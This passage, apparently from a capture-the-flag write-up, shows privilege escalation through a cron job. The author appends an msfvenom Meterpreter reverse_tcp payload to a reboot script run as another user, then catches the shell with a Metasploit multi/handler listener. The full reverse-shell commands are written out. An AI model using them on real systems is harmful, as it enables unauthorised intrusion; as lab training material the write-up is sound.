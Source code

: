 This is written in file `/etc/crontab`:

![crontab](crontab.png)

User tweedledum will run the `twasBrillig.sh` script we found above at reboot. By altering this script, we should be able to get a shell of tweedledum.

To do this, I first generated a payload with `msfvenom`:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.xx.xx.xx LPORT=4443 -f elf -o mt.bin
```

![venom](venom.png)

Then uploaded it to the target machine, and added the following line into `twasBrillig.sh`:

```bash
/home/jabberwock/mt.bin
```

On my local machine, I started Metasploit, and selected the exploit, selected the payload and started listening:

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
exploit
```

Then on the target machine as jabberwock:

```bash
sudo reboot
```

